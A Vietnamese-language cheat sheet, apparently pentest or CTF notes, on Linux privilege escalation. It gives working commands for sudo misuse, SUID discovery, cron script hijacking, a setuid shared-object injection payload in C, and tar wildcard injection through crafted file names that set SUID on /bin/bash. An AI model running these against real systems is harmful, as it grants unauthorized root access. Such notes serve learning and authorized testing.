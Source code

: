 # 1. sudo -l

Điều đầu tiên cần làm là check xem user hiện tại có quyền gì không? Được như bên dưới thì ngon:

```console
$ sudo -l
User example may run the following commands on localhost:
   ... NOPASSWD: /bin/bash
   ...
```

Đơn giản là có thể chạy với quyền sudo mà không cần password gì, lúc này chỉ cần `sudo /bin/bash` cái là ngon.
> Lưu ý: phải chạy y sì thằng `NOPASSWD` (`sudo /bin/bash`, chứ không phải `sudo bash` :)))

# 2. SUID

Tìm các file có SUID Bit:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

Sau đó tham khảo cách "mượn quyền" tại trang [này](https://gtfobins.github.io/)

# 3. crontab

List các cronjobs:

```console
$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

Example:

```console
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```

Dựa vào kết quả trên, check quyền của file được đặt cronjob bằng `ls -la` xem có thể edit được không. Như ở trên có file `/var/www/html/booked/cleanup.py` có vẻ khả quan, nếu có quyền `wr` thì chỉ cần thay thế nội dung là xong.

# 4. Shared object injection.

Nếu gặp 1 process nào đó chạy với quyền root, sử dụng một shared object file (.so) và có quyền ghi trong thư mục chứa .so đó, hoặc là có quyền ghi với chính file .so đó luôn, có thể thực hiện so injection.

```c 
// pwn.c 
#include <stdlib.h>
#include <unistd.h>

void _init() {
    setuid(0);
    setgid(0);
    system("some_cmd");
}
```

Gửi file đó lên victim, và compile:

```console 
$ gcc -shared -fPIC -nostartfiles -o so_file_name.so pwn.c 
```

Nếu gặp phải lỗi **"gcc: error trying to exec ‘cc1‘: execvp: No such file or directory"** thì có thể làm thế này:

```console 
$ find /usr/ -name "*cc1*" 2>/dev/null
...
...
/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/cc
...
...

$ export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/
```

# 5. Wildcard injection

Với một số tool nén file như `tar`, `zip`, `rync` và `7z`, có options cho phép chạy câu lệnh hệ thống, và đây là điều xảy ra khi thay tên file thành các options đó.

Ví dụ, có một cronjob như sau:

```console 
$ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
...
...
*/3 * * * * root /opt/backup.sh
```

Check perms của `/opt/backup.sh`:

```console 
$ ls -l /opt/backup.sh
-rwxr--r-- 1 root root 63 Aug 30 15:49 backup.sh
```

Nội dung của `/opt/backup.sh`:

```console 
$ cat /opt/backup.sh
#!/bin/bash

cd /var/www/html
tar -cf /opt/backup/backup.tgz *
```

Exploit:

```console
$ cd /var/www/html
$ echo -e '#/!bin/bash\nchmod +s /bin/bash' > shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
```

Lúc này trong `/var/www/html` sẽ có 3 file như sau:

```console 
$ ls
...
...
'--checkpoint=1'
'--checkpoint-action=exec=sh shell.sh'
...
...
shell.sh
```

Đợi khoảng 3 phút, ta thấy `bash` đã được set SUID:

```console
$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 28 01:40 /bin/bash
```

Đến bước này chỉ cần:
```console
$ /bin/bash -p

bash-5.1# id
uid=1000(user) gid=1003(user) euid=0(root) egid=0(root) groups=0(root),...
```

Ngoài ra còn nhiều trò khác tại [đây](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) và [đây](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

